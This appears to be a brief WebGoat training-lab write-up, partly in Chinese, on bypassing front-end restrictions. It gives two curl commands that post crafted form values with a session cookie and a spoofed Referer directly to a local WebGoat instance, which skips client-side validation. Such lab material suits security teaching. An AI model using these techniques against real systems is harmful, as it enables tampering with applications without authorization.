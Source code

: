 # Bypass front-end restrictions

很简单，要过前端代码限制。

## Task1
很简单
``` bash
curl -vn -H "Referer: http://baidu.com/" -H "Cookie: JSESSIONID=574A15072CE7BA353B3CF93D8AE1AB92" -X POST -d "select=option3&radio=option3&checkbox=1&shortInput=123123" http://127.0.0.1:8080/WebGoat/BypassRestrictions/FieldRestrictions
```

## Task2

一样道理

```bash
curl -vn -H "Referer: http://baidu.com/" -H "Cookie: JSESSIONID=574A15072CE7BA353B3CF93D8AE1AB92" -X POST -d "field1=abcd&field2=abcd&field3=**&field4=a&field5=ababa&field6=123123123&field7=1231231&error=0" http://127.0.0.1:8080/WebGoat/BypassRestrictions/frontendValidation/
```
